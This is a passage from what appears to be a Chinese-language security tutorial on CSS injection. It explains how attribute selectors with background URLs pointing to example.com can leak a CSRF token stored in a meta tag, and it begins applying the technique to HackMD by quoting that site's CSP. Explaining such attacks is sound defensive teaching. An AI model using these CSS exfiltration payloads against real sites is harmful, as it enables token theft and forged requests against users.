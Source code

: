 但除此之外，還有其他方式也偷得到。

meta 雖然也看不到，但跟 hidden input 不同，我們可以自己用 CSS 讓這個元素變成可見：

``` css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

![style](/img/css-injection-1/p2.png)

可是這樣還不夠，你會發現 request 還是沒有送出，這是因為 meta 在 head 底下，而 head 也有預設的 `display:none` 屬性，因此也要幫 head 特別設置，才會讓 meta「能被看到」：

``` css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

照上面這樣寫，就會看到瀏覽器發出 request。不過，畫面上倒是沒有顯示任何東西，因為畢竟 `content` 是一個屬性，而不是 HTML 的 text node，所以不會顯示在畫面上，但是 `meta` 這個元素本身其實是看得到的，這也是為什麼 request 會發出去：

![meta style](/img/css-injection-1/p3.png)


如果你真的想要在畫面上顯示 content 的話，其實也做得到，可以利用偽元素搭配 `attr`：

``` css
meta:before {
    content: attr(content);
}
```

就會看到 meta 裡面的內容顯示在畫面上了。

最後，讓我們來看一個實際案例。

## 偷 HackMD 的資料

HackMD 的 CSRF token 放在兩個地方，一個是 hidden input，另一個是 meta，內容如下：

``` html
<meta name="csrf-token" content="h1AZ81qI-ns9b34FbasTXUq7a7_PPH8zy3RI">
```

而 HackMD 其實支援 `<style>` 的使用，這個標籤不會被過濾掉，所以你是可以寫任何的 style 的，而相關的 CSP 如下：

```
img-src * data:;
style-src 'self' 'unsafe-inline' https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com https://fonts.gstatic.com https://*.disquscdn.com;
font-src 'self' data: https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com https://script.hotjar.com; 
```
